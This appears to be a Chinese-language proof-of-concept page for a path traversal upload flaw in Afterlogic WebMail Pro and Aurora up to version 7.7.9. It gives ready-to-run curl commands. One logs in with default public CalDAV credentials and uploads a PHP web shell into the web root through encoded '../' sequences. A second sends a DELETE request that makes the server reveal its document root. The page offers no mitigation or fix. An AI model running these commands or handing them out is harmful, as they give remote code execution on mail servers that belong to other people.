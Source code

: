 影響版本
--------

    WebMail Pro ≤ 7.7.9
    Afterlogic Aurora ≤ 7.7.9

POC
---

    curl -T shell.php -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/persona/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e/var/www/html/shell.php"

默認路徑為/var/www/html，也可能更改配置為其它路徑，可以嘗試其它方式獲取。

    curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
